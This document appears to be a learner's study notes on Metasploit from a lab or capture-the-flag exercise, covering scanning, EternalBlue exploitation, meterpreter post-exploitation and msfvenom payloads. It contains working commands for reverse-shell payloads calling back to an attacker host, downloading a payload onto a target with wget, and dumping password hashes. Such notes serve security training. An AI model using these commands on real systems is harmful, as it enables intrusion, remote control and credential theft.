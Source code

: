 ------------Scanning------------
Port scanning
`search portscan`
`use X`
`show options`
`set RHOSTS x.x.x.x`
`exploit`

UDP service identification
`scanner/discovery/udp_sweep`

SMB Scans (Server Message Block - Network file sharing protocol)
`scanner/smb/smb_version`, `scanner/smb/smb_enumshares`
(dont exclude weird services like NetBIOS when scanning)

- use exploit
- set RHOSTS, SMBUser (to "penny" per the question), and USER_PASS to a provided password list. RPORT may need to be set, but this was running on the default port

------------Metasploit Database------------
\*\*\*\*\* \- `runuser -l ubuntu -c 'COMMAND'` or `sudo -u ubuntu COMMAND`, run command as local user
launch database - `systemctl start postgresql` -\> `msfdb init`
list database - `workspace' -a NEW_WORKSPACE`to add a workspace,`-d`for delete,`-h`for help use`db_nmap`vs`nmap`to store queries to database ->`hosts`or`services `, `hosts -R`, set RHOSTS from results of a previous search ` ANYTHING -h`, return help menu for any command

Low-hanging fruit:
HTTP: running vulnerable web apps (SQL, RCE), weak logins
FTP: anonymous login, weak logins
SMB: SSH: weak creds
RDP: weak creds, Bluekeep

Vulnerability Scanning
Find services, then search for service names in Metasploit
use `-S` in search for regex filter and use `info` for details on a used exploit

Exploitation
Most exploits will have default payloads, but these can be changed with `show payloads` for more specific use cases
`sessions -i SESSION -c COMMAND`, run a command on a session without switching to it

Exploitation Example:
-Run quick nmap on host
-do `nmap -A` on open ports
-X search for names of services in metasploit search
-X Take hint from the question -> MS17-010 -> related to SMB
-****Glean from the Host script results: in the `nmap -A` scan the smb services are interrogated returning the version (Windows Professional 6.1) on port 445

- Google service version and find MS17-010 "Eternal Blue"
- Search MS17-010 on metasploit `search ms17-010 -t exploit`
- Configure and use the payload on target
- ****Gain meterpreter shell, use `search -h` to see search options for find flag.txt
- `search -f *flag*`, cat file location
- hashdump, copy user NTLM hash (second one) for cracking

----------------Msfvenom (Payload generation and encoding)----------------

`msfvenom -p PAYLOAD_PATH LHOST=X.X.X.X -f exe(FORMAT) -o payload.exe(OUTPUT)`
`msfvenom -l payloads`
`msfvenom --list formats`

Encoders
Not intended to bypass security, but may help,
`msfvenom -l encoders`

Handlers
Accepts incoming connections by the payload, "catch a shell".
Generate *PHP* shell using MSFVenom -> Start the Metasploit handler -> Execute the *PHP* shell
Payloads will often have to be adjusted for proper execution, ie. removing commented script tags (), changing callback address/port, and changing logic.
`use exploit/multi/handler` -\> `set payload php/reverse_php` -\> `set lhost MY_IP` -\> `set lport MY_IP` -\> run
When the reverse shell is triggered the connection is received by the multi/handler, giving us the shell, this is usually a meterpreter shell by default.

Other Examples
Linux (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
Windows: `msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
PHP: 'msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php'
ASP: 'msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp'
Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

must have set up listener or `exploit/multi/handler` module set up/listening for reverse shells above

Msfvenom Example:

- Given a set of user credentials for an SSH connection, login in `ssh murphy@HOST_IP` and use password
- run `sudo su` to get a root shell (easy mode)
- create a linux .elf payload with `msfvenom -p linux/x86/meterpreter/reverse_shell LHOST=XXXX LPORT=XXXX -f elf > revsh.elf`
- upload it to the target by first hosting a python server on the attack box `python3 -m http.server 8000`
- then grab the file from the root sessions with `wget http://XXXX:8000/revsh.elf`
- use msfconsole to setup a listener with `use exploit/multi/handler` (set appropriate options)
- `set payload linux/x86/meterpreter/reverse_tcp`
- run exploit and get feedback of a meterpreter shell on the target
- ****`run post/linux/gather/hashdump` to get a hash dump of all users on the system OR from msfconsole > `use post/linux/gather/hashdump` -\> `set SESSION XX` -\> run